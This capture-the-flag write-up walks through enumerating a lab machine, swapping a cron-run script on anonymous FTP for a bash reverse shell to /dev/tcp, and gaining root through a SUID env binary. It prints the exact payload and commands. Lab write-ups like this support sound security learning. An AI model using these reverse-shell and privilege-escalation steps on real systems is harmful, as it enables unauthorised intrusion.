 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21 | ftp |
| 22 | ssh |
| 139 | smb |
| 445 | smb |

```
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx 2 111 113 4096 Jun 04 2020 scripts [NSE: writeable]
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.6.34.159
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 2
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
| 256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_ 256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb-os-discovery:
| OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
| Computer name: anonymous
| NetBIOS computer name: ANONYMOUS\x00
| Domain name: \x00
| FQDN: anonymous
|_ System time: 2025-04-01T18:15:57+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
| smb2-time:
| date: 2025-04-01T18:15:57
|_ start_date: N/A
```

# RECONNAISSANCE
---


We got FTP and SMB enabled on the machine, also, we got anonymous login enabled in FTP at first sight thanks to the scan, this may be enabled on smb too, let's check out FTP first:


![Pasted image 20250401131807.png](../../IMAGES/Pasted%20image%2020250401131807.png)

We got a `scripts` directory, let's check it contents:

![Pasted image 20250401132437.png](../../IMAGES/Pasted%20image%2020250401132437.png)

We got some scripts in it, let's look at them:


![Pasted image 20250401132655.png](../../IMAGES/Pasted%20image%2020250401132655.png)



![Pasted image 20250401132708.png](../../IMAGES/Pasted%20image%2020250401132708.png)



![Pasted image 20250401132719.png](../../IMAGES/Pasted%20image%2020250401132719.png)


That `clean.sh` script seems interesting, let's keep it like that for now. We can proceed to analyze `SMB`, since the anonymous login may be enabled, we can view the contents of the shares:

```
smbclient -L \\\\10.10.235.71\\ -N
Can't load /etc/samba/smb.conf - run testparm to debug it

	Sharename Type Comment
	--------- ---- -------
	print$ Disk Printer Drivers
	pics Disk My SMB Share Directory for Pics
	IPC$ IPC IPC Service (anonymous server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Let's check that `pics` share:

![Pasted image 20250401133112.png](../../IMAGES/Pasted%20image%2020250401133112.png)

Both files are not interesting, if we try extracting the contents with `steghide`, we'll need a passphrase so, they're not useful, let's proceed with exploitation then.




# EXPLOITATION
---


We already know that the FTP protocol has got a script called `clean.sh`, interesting part about the script is that:

- The script checks`if [ $tmp_files=0 ]` (missing space around =). While syntactically incorrect, this is treated as a string comparison. However, the script is likely **triggered by a cron job** (since`removed_files.log` has many entries).

If we can modify the contents of `clean.sh`, we can upload a reverse shell and gain access to the machine, let's test this by doing the following:


1. Create a new `malicious_clean.sh` script with the following contents to trigger a reverse shell:

```
#!/bin/bash
bash -i >& /dev/tcp/IP/PORT 0>&1
```

2. Replace the script with our malicious one:

```
ftp IP # Login with anonymous login
cd scripts
put malicious_clean.sh clean.sh
```

3. Set up the listener and wait for the connection:

```
nc -lvnp PORT
```


If we reproduce these steps, we can see the following in our listener:

![Pasted image 20250401133901.png](../../IMAGES/Pasted%20image%2020250401133901.png)

We got a shell as `namelessone`, let's begin privilege escalation.



# PRIVILEGE ESCALATION
---


First step would be stabilizing our shell to move around the machine in a more comfortable way:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250401134051.png](../../IMAGES/Pasted%20image%2020250401134051.png)

We can read `user.txt` now:

```
namelessone@anonymous:~$ cat user.txt
90d6f992585815ff991e68748c414740
```

Now, in order to get root, we can use linpeas to check for any privesc vector:

![Pasted image 20250401134406.png](../../IMAGES/Pasted%20image%2020250401134406.png)

For example, we are inside of the `sudo` group but since we do not know the password of `namelessone`, this is pretty much useless for now, if we keep looking at `linpeas` output, we can check this:

![Pasted image 20250401134512.png](../../IMAGES/Pasted%20image%2020250401134512.png)

We got `SUID` for `/usr/bin/env`, let's check `gtfobins`:

![Pasted image 20250401134540.png](../../IMAGES/Pasted%20image%2020250401134540.png)

So, we can do the following in order to get a root shell:

```
/usr/bin/env /bin/bash -p
```

![Pasted image 20250401134615.png](../../IMAGES/Pasted%20image%2020250401134615.png)

There we go, we can finally read `root.txt` and end the challenge:

```
bash-4.4# cat /root/root.txt
4d930091c31a622a7ed10f27999af363
```

![Pasted image 20250401134709.png](../../IMAGES/Pasted%20image%2020250401134709.png)



